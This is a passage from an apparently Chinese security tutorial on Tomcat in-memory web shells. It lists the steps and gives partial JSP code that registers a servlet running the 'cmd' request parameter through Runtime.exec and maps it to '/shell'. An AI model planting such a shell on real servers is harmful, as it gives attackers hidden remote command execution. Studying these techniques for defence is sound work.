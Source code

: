 ```java
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```

## Servlet类内存马
创建Servlet的流程



获取StandardContext对象

编写恶意Servlet

通过StandardContext.createWrapper()创建StandardWrapper对象

设置StandardWrapper对象的loadOnStartup属性值

设置StandardWrapper对象的ServletName属性值

设置StandardWrapper对象的ServletClass属性值

将StandardWrapper对象添加进StandardContext对象的children属性中

通过StandardContext.addServletMappingDecoded()添加对应的路径映射

实例：

```java
......      
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
......      
%>

<%
    // 创建一个新的 Shell_Servlet 实例
    Shell_Servlet shell_servlet = new Shell_Servlet();

    // 获取 Shell_Servlet 类的简单名称
    String name = shell_servlet.getClass().getSimpleName();

    // 创建一个新的 Wrapper 实例
    Wrapper wrapper = standardContext.createWrapper();

    // 设置 Wrapper 的加载优先级为 1
    wrapper.setLoadOnStartup(1);

    // 设置 Wrapper 的名称
    wrapper.setName(name);

    // 设置 Wrapper 的 Servlet 实例
    wrapper.setServlet(shell_servlet);

    // 设置 Wrapper 的 Servlet 类名
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>

<%
    // 将 Wrapper 添加到 standardContext 中
    standardContext.addChild(wrapper);

    // 将 "/shell" URL 映射到 Wrapper
```